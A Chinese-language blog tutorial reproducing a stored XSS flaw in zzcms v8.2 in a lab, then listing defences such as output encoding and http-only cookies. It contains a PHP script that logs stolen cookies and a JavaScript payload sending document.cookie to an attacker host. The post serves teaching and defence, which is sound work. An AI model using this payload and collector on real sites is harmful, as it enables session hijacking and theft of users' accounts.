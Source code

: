 ```yaml
---
title: XSS 跨域攻击机制及防御技术
tags: XSS漏洞
categories: Web-security
abbrlink: 57250
date: 2019-06-02 11:43:29
---
```


## 前言

最近在[`CNVD`（国家信息安全漏洞共享平台）](<https://www.cnvd.org.cn/flaw/typelist?typeId=29>)找了一个存在`XSS`漏洞的`Web`应用进行复现。在`PHP` + `MySQL`环境上搭建出一个真实的实验环境对`zzcms v8.2`的一个`XSS`漏洞进行复现，进而解析`XSS`跨域攻击机制及防御技术。

<!-- more -->

## 背景

跨站脚本攻击`（XSS）`是客户端`Web`安全的最大威胁之一，不仅危害`Web`业务本身，同时对访问`Web`业务的用户也会带来直接的影响。因跨站脚本攻击的多样性以及`Web`安全漏洞的隐蔽性，使得`XSS`的攻击很难彻底防御。

### XSS 攻击的原理

跨站脚本攻击本质上是一种将恶意脚本嵌入到当前网页中并执行的攻击方式。通常情况下，黑客通过“`HTML`注入”行为篡改网页，并插入恶意`JavaScript`脚本，从而在用户浏览网页的时候控制浏览器行为。这种漏洞产生的主要原因是网站对于用户提交的数据过滤不严格，导致用户提交的数据可以修改当前页面或者插入了一段脚本。

攻击者可利用其用户身份在输入参数时，附带了恶意脚本，在提交服务器之后，服务器没有对用户端传入的参数做任何安全过滤。之后服务器会根据业务流程，将恶意脚本存储在数据库中或直接回显给用户。在用户浏览含有恶意脚本的页面时，恶意脚本会在用户浏览器上成功执行。

### XSS 攻击的分类

- 反射型跨站攻击：涉及浏览器—服务器交互
- 存储型跨站攻击：涉及浏览器—服务器—数据库交互
- DOM型跨站攻击：涉及浏览器—服务器交互

### XSS 攻击危害

- 窃取用户Cookie
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 窃取具有商业价值的资料
- 非法转账，非法进行交易
- 植入木马病毒
- 强行弹出广告
- 操控用户主机
- ...

## XSS 攻击实现

`XSS`攻击是需要满足`XSS`攻击的条件。`XSS`漏洞的利用过程较为直接。反射型/`DOM`型跨站攻击均可以理解为：服务器接收到数据，并原样返回给用户，整个过程中`Web`应用并没有存入数据库，这也导致了攻击无法持久化，仅针对当次请求有效，也就无法直接攻击其他用户。一般这两类攻击也可利用钓鱼、垃圾邮件等手段产生攻击其他用户效果。

反射型与存储型`XSS`攻击的实现原理和主要流程非常相似，但由于存储型`XSS`攻击的持久性及危害更加强大，所以本次`XSS`攻击实现，将采用存储型跨站攻击方式进行实践分析。

首先，要成功实施跨站脚本攻击，我们需要了解一下存储型跨站的主要业务流程

![business-process](57250\business-process.png)

根据上图业务流程，存储型`XSS`攻击有两个重点的步骤：信息入库处理、出库处理，结合`XSS`攻击的特性可知，`XSS`攻击成功必须要满足以下四个条件：

1. 目标网页有攻击者可控的输入点
2. 输入信息可以在受害者的浏览器中显示
3. 输入具备功能的可执行脚本，且在信息输入和输出的过程中没有特殊字符的过滤和字符转义等防护措施，或者说防护措施可以通过一定的手段绕过
4. 浏览器将输入解析为脚本，并具备执行该脚本的能力

以上四点缺一不可。如果需要做针对`XSS`攻击的防御，只要针对上述任何一点做好防御，攻击就无法正常开展，`XSS`漏洞也就不存在了，后面将详细解析`XSS`攻击的防御。

### 搭建zzcms v8.2服务运行环境

因为`zzcms v8.2`是基于`php` + `mysql`环境下运行的，这里将采用`php` +`mysql` + `xampp` 将`zzcms`部署在`window`系统上，然后通过浏览器地址栏输入主机`IP`可进入到`zzcms`的首页，即搭建成功。部署好靶机后，我们任需要一个收集敏感信息的站点，一个攻击者站点，同时还需要一个用户主机的站点，准备好这些站点，将可以进行漏洞复现。

### 部署攻击者准备的收集敏感信息的站点

同样，我们任需通过`xampp`来部署收集敏感信息的站点，在`..\xampp\htdocs\`路径下新建一个文件夹用于采收用户的敏感信息，这里复现漏洞将采用获取用户的`cookie`值为例。新建文件夹命名为`xss`，然后在`..\xampp\htdocs\xss`路径下新建`index.php`用于获取用户的`cookie`。在该`php`文件下输入以下代码：

```php
<?php 
$cookie=$_GET['cookie'];      //以GET方式获得cookie变量值 
$time=date('Y-m-d g:i:s');    //以“年-月-日 时：分：秒”的格式显示时间 
$referer=getenv('HTTP_REFERER');       //获取referer 
$cookietxt=fopen('cookie.txt','a');   //打开cookie.txt，若不存在则创建它 
fwrite($cookietxt,"time:".$time. " cookie:".$cookie. " referer:".$referer);    //写入文件 
fclose($cookietxt);     //关闭文件 
?>
```

### 实施攻击

跨站脚本攻击最典型的形式就是在网站的评论功能、论坛私信功能和发表帖子以及留言板等处使用静心构造的`HTML`代码提交数据，从而达到恶意攻击目的。

在我们刚刚部署好的靶机上，攻击者访问了刚刚搭建的存在`XSS`漏洞的`zzcms`网站，攻击者通过登录注册进入到存在漏洞的输入框，开始植入恶意代码

```javascript
<script>
    document.write('<img src="http://192.168.238.148/xss/index.php?cookie='+document.cookie+'"width=0 height=0 border=0/>');
</script>
```

通过`img`的`src`属性自带跨域机制，以及指定的`url`传参的形式将窃取到敏感信息发送至攻击者准备的收集信息站点。攻击的类型为存储型跨站攻击，也就是说，攻击者植入的这些恶意代码将通过存储型跨站的业务流程，存入数据库，并能返回给用户，同时浏览器将输出解析为脚本，并执行该脚本。而且该脚本长期有效，并且一直存在该网站上。

到此，攻击者已经完成了攻击，接下来就是等待用户点击此链接，从而窃取用户的`cookie`值。

### 窃取用户敏感信息

攻击者发布存在恶意代码的链接将一直存在该网站，而普通用户并不知道该链接存在恶意代码，所以当普通用户点击该链接后，攻击者将窃取敏感信息。

![cookie](57250\cookie.jpg)

上图所示均为攻击者收集敏感信息站点所收集到的用户`cookie`信息，攻击者可采用此敏感信息进行伪登录，从而获取更多用户信息。

## XSS 攻击的防御

上面提到了`XSS`攻击的必要条件，那么只要破坏`XSS`攻击的必要条件将可防止`XSS`安全漏洞。目前对`XSS`漏洞的防御一般有两种方式。

### 代码层防御

`XSS`攻击防范主要是由程序漏洞造成的，治标还要治本，从代码层面上采用预防漏洞的高级编程技术，可以帮助大大减少`XSS`安全漏洞。

- 对用户输入和`URL`参数进行过滤，对输出进行编码
- 对用户所有提交内容进行验证，包括`URL`、查询关键字、`HTTP`头、`POST`数据等
- 仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交
- 在变量值输出到前端的`HTML`时进行编码和转义，对特殊字符进行过滤和转义
- 给关键的`cookie`使用`http-only`

### 部署专业的防御设备

目前较为流行的有入侵防御产品，利用的就是入侵防御产品对应用层攻击的检测防御能力。用户在选择相应的产品时，可先了解相关产品的`XSS`、`SQL`注入等`Web`威胁的检测方式。部分检测`XSS`攻击产品是通过一定特征进行匹配代码检测。一旦检测到关键指定代码，将判定为`XSS`攻击，从而阻断程序进行。

## 总结

`XSS`攻击是最常见的`Web`攻击方式之一，和`SQL`注入漏洞不同的是，`XSS`漏洞存在多样性和隐蔽性，更加难以发现。一般的防御措施也仅限在通过编写高质量的程序，从而来过滤存在恶意的代码，但是这样难免会出现遗漏或者疏忽的地方，所以在安全与高效之间，必须要兼顾安全再进一步高效编码，一旦疏忽或者遗漏而产生漏洞带来的后果将是不可估量的。



参考文献

《Web安全防护指南》、《黑客攻防实战秘技》、[XSS攻击防御技术白皮书](<http://netsecurity.51cto.com/art/200807/81551.htm> )、[XSS的攻击与防范]( <https://www.freebuf.com/articles/web/185654.html>)